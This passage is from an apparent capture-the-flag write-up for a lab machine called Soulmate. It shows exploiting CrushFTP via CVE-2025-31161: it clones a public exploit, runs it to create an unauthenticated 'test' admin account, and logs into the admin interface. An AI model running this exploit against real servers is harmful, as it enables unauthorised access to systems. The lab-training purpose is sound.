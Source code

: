 # Exploitation
## CrushFTP
### CVE-2025-31161
- This allowed any user to be added without proper authentication.
- Cloned the public exploit from GitHub and ran it to create a test user with password `admin123`
```bash
git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161  
cd CVE-2025-31161  
```

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123
```
**Output**
```txt
[+] Exploit Complete you can now login with
   [*] Username: test
   [*] Password: admin123
```
credentials to log into the CrushFTP web interface as `test:admin123`
- After logging in, clicked on the **Admin** button.
![](<./attachments/Soulmate-5.png>)
- Then, navigated to the **User Manager** tab.